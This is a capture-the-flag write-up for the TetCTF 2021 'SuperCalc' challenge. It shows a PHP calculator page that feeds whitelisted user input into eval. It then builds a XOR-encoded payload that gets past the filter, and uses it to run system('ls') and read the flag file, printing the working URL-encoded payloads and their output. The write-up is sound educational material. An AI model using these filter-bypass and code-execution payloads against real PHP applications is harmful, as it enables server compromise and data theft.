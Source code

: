 # SuperCalc
### TetCTF 2021

calc=// or / or . or .. gives internal server error...

When we don't pass the parameter "calc" in the URL, we get the source code:

``` php
<!-- Enjoy Tsu's Super Calculator <3, Not Only + - * / but also many other operators <3 <3 <3 -->

<?php

ini_set("display_errors", 0);

if(!isset($_GET["calc"])) 
{
    show_source(__FILE__);
}
else
{
    $wl = preg_match('/^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$/i', $_GET["calc"]);
    if($wl === 0 || strlen($_GET["calc"]) > 70) {
        die("Tired of calculating? Lets <a href='https://www.youtube.com/watch?v=wDe_aCyf4aE' target=_blank >relax</a> <3");
    }
    echo 'Result: ';
    eval("echo ".eval("return ".$_GET["calc"].";").";");
}
```

There's a very strict filter (`^[0-9\+\-\*\/\(\)\'\.\~\^\|\&]+$`) that only allows:
- numbers (0-9)
- +, -, *, /
- ()
- ', ., ~, ^
- |, &

Hoever, we can maybe bypass it by converting there chars into others via XOR, OR and AND. Example: `'A' ^ '0' = 'q'`

So, we'll create a payload that uses others parameters such as $_GET[1], $_GET[2] etc. This makes it easier to insert any kind of code in the page/server.
We could execute something like `system('ls')` and the payload could be: `$_GET[1]($_GET[2])`. With this, `$_GET[1]` would be our function name (system) and `$_GET[2]` our parameter (ls).

We must find a way to "create" there chars:
`$` = 36
`_` = 95
`G` = 71
`E` = 69
`T` = 84
`[` = 91
`]` = 93

Trying to find the chars with python ([findingChars.py](https://github.com/Haltz01/CTFs_Writeups/blob/master/2021_TetCTF/SuperCalc/findingChars.py)), I only obtained 4 of there characters: $, G, E, T... But, with a 2nd round of enconding, it's possible to reach the other 3 chars:
```
'4' & '.' = '$'
'9' ^ '~' = 'G'
'9' ^ '|' = 'E'
'(' ^ '|' = 'T'
===============================
'0' ^ '1' ^ '^' = '_'
'0' ^ '3' ^ '^' = ']'
'0' ^ '5' ^ '^' = '['
```

To get `$_GET[1]($_GET[2])` in the code, we got a preg-matching payload: `('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'1'.('0'^'3'^'^').'('.('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'2'.('0'^'3'^'^').')'`

But now we must reduce its size to be under 70 chars...
`('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'1'.('0'^'3'^'^').'('.('4'&'.').('0'^'1'^'^').('9'^'~').('9'^'|').('('^'|').('0'^'5'^'^').'2'.('0'^'3'^'^').')'` --nesting the ones with only 2 chars and using XOR--> `('4'&'.').('0'^'1'^'^').('99(99('^'~||~||').('0'^'5'^'^').'1'.('0'^'3'^'^').'('.('4'&'.').('0'^'1'^'^').('0'^'5'^'^').'2'.('0'^'3'^'^').')'` -> not enought (and this one is wrong, but whatever...) :(

To reduce the payload size, we can combine the chars if they all have the same amount of XOR operations.

Redoing all chars to be a combination of 3 XORs ([findingChars_XORs.py](https://github.com/Haltz01/CTFs_Writeups/blob/master/2021_TetCTF/SuperCalc/findingChars_XORs.py)):
```
'0' ^ '2' ^ '&' = '$'
'0' ^ '1' ^ '^' = '_'
'0' ^ ')' ^ '^' = 'G'
'0' ^ '^' ^ '+' = 'E'
'2' ^ '8' ^ '^' = 'T'
'0' ^ '5' ^ '^' = '['
'0' ^ '3' ^ '^' = ']'
And these are kinda simple, but I'll write them down:
'0' ^ '0' ^ '1' = '1'
'0' ^ '0' ^ '2' = '2'
'0' ^ '0' ^ '(' = '('
'0' ^ '0' ^ ')' = ')'
```

`$_GET[1]` = `('0'^'2'^'&').('0'^'1'^'^').('0'^')'^'^').('0'^'^'^'+').('2'^'8'^'^').('0'^'5'^'^').('0'^'0'^'1').('0'^'3'^'^')` 
= `'00002000' ^ '21)^8503' ^ '&^^+^^1^'` (nesting the XOR operations)
Similarly, `($_GET[2])` = `'0000020000' ^ '021)^85030' ^ '(&^^+^^2^)'`

Writting them together: `$_GET[1]($_GET[2])` = `'000020000000020000' ^ '21)^8503021)^85030' ^ '&^^+^^1^(&^^+^^2^)'`

Now, we finally have a payload:
` calc='000020000000020000'^'21)^8503021)^85030'^'&^^+^^1^(&^^+^^2^)'&1=system&2=ls `

URL encoding: `%27000020000000020000%27%5E%2721%29%5E8503021%29%5E85030%27%5E%27%26%5E%5E%2B%5E%5E1%5E%28%26%5E%5E%2B%5E%5E2%5E%29%27&1=system&2=ls`

And, IT WORKS!!!
``` html
Result: fl4g1sH3re.php index.php index.php
```

Now, we just have to read flagshere.php using `%27000020000000020000%27%5E%2721%29%5E8503021%29%5E85030%27%5E%27%26%5E%5E%2B%5E%5E1%5E%28%26%5E%5E%2B%5E%5E2%5E%29%27&1=system&2=cat+fl4g1sH3re.php`

There it is:
``` php
<?php

$flagflagflagflagflagflag = "TetCTF{_D0_Y0u_Know_H0w_T0_C4lculat3_1337?_viettel_*100*817632506233949#}";

?>
```

**FLAG: `TetCTF{_D0_Y0u_Know_H0w_T0_C4lculat3_1337?_viettel_*100*817632506233949#}`**